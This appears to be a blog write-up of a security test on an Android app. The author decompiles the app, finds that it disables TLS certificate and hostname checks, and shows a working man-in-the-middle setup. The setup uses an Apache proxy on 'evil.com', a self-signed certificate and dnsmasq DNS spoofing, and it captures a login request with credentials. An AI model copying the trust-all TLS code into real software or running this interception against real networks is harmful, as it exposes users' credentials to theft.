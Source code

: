 ```yaml
---
published: false
---
```

I chose one application in Google Play to test. Its main functionalities were focused on consuming a RESTful web service. I decompiled this application using tools dex2jar and JD-GUI. Firstly I connected my phone to computer to get apk file

	$ adb pull /data/app/com.example.app.apk

Then I converted apk into jar and ran decompiler

	$ ./d2j-dex2jar.sh com.example.app.apk -o app.jar
	dex2jar com.example.app.apk -> app.jar

	$ java -jar jd-gui-1.4.0.jar app.jar

During code analysis I found some interesting piece which made me think that application doesn't verify SSL certificate.

	SSLContext sc = SSLContext.getInstance("TLS");
	sc.init(null, new TrustManager[] { new TrustAllX509TrustManager() }, new java.security.SecureRandom());
	HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());
	HttpsURLConnection.setDefaultHostnameVerifier( new HostnameVerifier(){
    	public boolean verify(String string,SSLSession ssls) {
        	return true;
    	}
	});
	
	public class TrustAllX509TrustManager implements X509TrustManager {
    	public X509Certificate[] getAcceptedIssuers() {
        	return new X509Certificate[0];
    	}
	
    	public void checkClientTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	
    	public void checkServerTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	}
    
To prove it I ran Burp Suite and set up proxy on my phone. It was important to not install Burp's CA certificate. Web browser started to show warning when I was trying to load any page through HTTPS, but my application was connecing to web service without any problems.
I decided to exploit this vulnerability and peform Man-in-the-middle attack by setting up proxy between target's mobile device and web service.

I started with proxy which was script written in PHP and ran on Apache. It passes requests to legitimate web service and returns response from it slightly modifying headers to make whole communication readable. Apache required rewriting rule to redirect every URL to this script and self-signed SSL certificate.

	<VirtualHost *:443>
		ServerName evil.com
		RewriteEngine on
		RewriteCond %{REQUEST_FILENAME} !-d
		RewriteCond %{REQUEST_FILENAME} !-f
		RewriteRule . /proxy.php [L]
		DocumentRoot /var/www/html
		SSLEngine on
		SSLCertificateFile "/tmp/server.cert"
		SSLCertificateKeyFile "/tmp/server.key"
	</VirtualHost>

Certificate was generated by

	$ openssl req -nodes -new -x509 -keyout server.key -out server.cert
    
Next step was to run dnsmasq - DNS server configured to return my proxy's IP for web service domain.
Configuration consists of two files, /etc/dnsmasq.conf

	addn-hosts=/etc/dnsmasq.hosts
	server=8.8.8.8
    
and /etc/dnsmasq.hosts

	192.0.2.1 example.com
    
	$ dnsmasq -C /etc/dnsmasq.conf
    
The last step was to change router's DNS to set up server's IP in administration panel. From that moment traffic from every device connected to attacker's WiFi was logged.

	$ cat /tmp/traffic
	POST /login HTTP/1.1
	Accept: text/plain, text/plain, application/json, */*, */*
	Content-Type: application/json
    User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.4; GT-I8160 Build/KTU84Q)
	Host: example.com
	Connection: Keep-Alive
	Content-Length: 53
    
    { "username": "user1", "password": "s3cr3tp4ssw0rd" }
    
    
    HTTP/1.1 200 200
	Server: nginx
	Date: Sat, 25 Feb 2017 20:47:29 GMT
	Content-Type: application/json
	Transfer-Encoding: chunked
	Connection: keep-alive
	Set-Cookie: JSESSIONID=A163B20D3696AF6185C07CD62EBA4B05;Secure;HttpOnly
    



